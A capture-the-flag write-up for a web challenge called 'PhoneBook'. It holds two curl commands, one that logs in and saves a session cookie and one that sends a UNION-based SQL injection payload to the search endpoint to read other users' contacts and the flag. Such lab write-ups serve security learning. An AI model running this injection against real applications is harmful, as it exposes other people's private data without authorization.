




## Challenge Name: PhoneBook
## Category: Web
## Difficulty: Medium.
### Description

### Steps
#### Register or log in to the app with any normal user account.

#### Save your authenticated session cookie
```
curl -sS -c /tmp/phonebook.cookies \
  -H 'Content-Type: application/json' \
  -d '{"username":"sam","password":"123"}' \
  'http://labs.ctfzone.com:7941/api/login'
  ```
  #### Use the vulnerable search endpoint with a UNION payload
  ```
  curl -sS -b /tmp/phonebook.cookies \
"http://labs.ctfzone.com:7941/api/contacts/search?q=%27)%20UNION%20SELECT%20id,user_id,name,phone,email,address,notes,created_at,updated_at%20FROM%20contacts%20WHERE%20user_id!=4--%20"
```

#### Read the response and look at the notes field.
#### The flag appears in the Flag Keeper contact

##### Vulnerability
##### Type: SQL Injection (UNION-based)
##### Location: /api/contacts/search?q=
##### Impact: Unauthorized access to other users’ data

